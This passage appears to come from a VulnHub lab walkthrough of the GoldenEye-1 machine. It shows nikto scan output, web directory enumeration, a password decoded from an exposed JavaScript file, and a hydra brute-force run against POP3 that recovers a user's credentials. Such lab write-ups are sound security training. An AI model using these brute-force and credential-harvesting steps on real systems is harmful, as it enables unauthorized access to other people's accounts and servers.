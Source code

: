 ```
+ /splashAdmin.php: Cobalt Qube 3 admin is running. This may have multiple security problems as described by www.scan-associates.net. These could not be tested remotely.
+ OSVDB-3233: /icons/README: Apache default file found.
+ 7915 requests: 0 error(s) and 9 item(s) reported on remote host
+ End Time:           2022-01-27 19:17:22 (GMT8) (53 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
- `splashAdmin.php`
- `Cobalt Qube 3 admin`



# Initial Foothold
## TCP/80 - HTTP - Hidden Directory & Text
1. View to enumerated directories
	- `index.html`
		![](images/Pasted%20image%2020220128012756.png)
		- `sev-home`
		- `terminal.js`
	- `/sev-home`
		![](images/Pasted%20image%2020220127191911.png)
		- Basic Authentication
	- `terminal.js`
		![](images/Pasted%20image%2020220128020026.png)
		- Boris
			- Encoded password
			- Default password
	- `splashAdmin.php`
		![](images/Pasted%20image%2020220127192212.png)
		- List of users
			- boris/Boris
			- janus/Janus
			- admin/Admin
			- natalya/Natalya
			- xenia/Xenia
		- Cobalt Qube 3 has been decomissioned
2. Search exploits for `Cobalt Qube 3`

	| Exploit Title                           | Path                  |
	| --------------------------------------- | --------------------- |
	| Cobalt Qube 3.0 - Authentication Bypass | php/webapps/21640.txt |
	- Exploit did not work
3. Decode password
	![](images/Pasted%20image%2020220128013328.png)
	- boris:InvincibleHack3r
4. Proceed to `/sev-home` & login
	![](images/Pasted%20image%2020220128013555.png)
## TCP/55007 - POP3 - Bruteforce + Access Emails
1. Bruteforce POP3
	```
	┌──(root💀kali)-[~/vulnHub/GoldenEye-1/192.168.236.12/exploit/http]
	└─# hydra -l boris -P /usr/share/wordlists/fasttrack.txt pop3://$ip:55007 -e nsr
	[DATA] attacking pop3://192.168.236.12:55007/
	[STATUS] 80.00 tries/min, 80 tries in 00:01h, 142 to do in 00:02h, 16 active
	[STATUS] 64.00 tries/min, 128 tries in 00:02h, 94 to do in 00:02h, 16 active
	[55007][pop3] host: 192.168.236.12   login: boris   password: secret1!